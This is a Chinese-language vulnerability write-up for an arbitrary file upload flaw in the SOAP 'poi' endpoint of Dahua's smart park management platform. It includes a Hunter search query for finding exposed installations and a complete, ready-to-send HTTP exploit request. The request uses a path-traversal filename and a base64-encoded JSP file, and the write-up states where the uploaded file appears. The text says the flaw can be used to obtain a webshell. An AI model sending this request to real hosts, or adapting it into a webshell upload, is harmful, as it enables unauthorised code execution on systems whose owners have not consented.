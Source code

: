 # 大华智慧园区综合管理平台poi任意文件上传漏洞

# 一、漏洞描述
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。 <font style="color:rgba(0, 0, 0, 0.9);">大华智慧园区综合管理平台在/emap/webservice/gis/soap/poi接口处存在任意文件上传漏洞，可以利用此漏洞获得webshell。</font>

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/YD6R9DCWkCac1mzy/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-882487.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/YD6R9DCWkCac1mzy/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-782181.png)

# 四、漏洞复现
```plain
POST /emap/webservice/gis/soap/poi HTTP/1.1
Host: xx.xx.xx.xx
Cookie: JSESSIONID=9EC0A731FFF852957C17C91FE2EF24BD
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 683

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:res="http://response.webservice.poi.mapbiz.emap.dahuatech.com/">
<soapenv:Header/>
<soapenv:Body>
<res:uploadPicFile>
<!--type:string-->
<arg0>/../../1.jsp</arg0>
<!--type:base64Binary-->
<arg1>PCVAcGFnZSBpbXBvcnQ9ImphdmEudGV4dC4qLGphdmEudXRpbC4qLGphdmEuaW8uKiIlPgo8JQpTaW1wbGVEYXRlRm9ybWF0IGRmID0gbmV3IFNpbXBsZURhdGVGb3JtYXQoInl5eS1NTS1kZCBISDptbTpzcyIpOwpvdXQucHJpbnRsbihkZi5mb3JtYXQobmV3IERhdGUoKSkpOwpGaWxlIGZpbGUgPSBuZXcgRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKTsKZmlsZS5kZWxldGUoKTsKJT4=</arg1>
</res:uploadPicFile>
</soapenv:Body>
</soapenv:Envelope>
```

![1694071791341-5248d78f-4c1e-4dd3-8b9e-29c6fd09aabe.png](./img/YD6R9DCWkCac1mzy/1694071791341-5248d78f-4c1e-4dd3-8b9e-29c6fd09aabe-418276.png)

上传文件位置

```plain
http://xx.xx.xx.xx/upload/1.jsp
```

![1694071840120-b98410d5-a689-4743-8a5b-e59ad7b99583.png](./img/YD6R9DCWkCac1mzy/1694071840120-b98410d5-a689-4743-8a5b-e59ad7b99583-299337.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bdf3yqzbh9p9h9ev>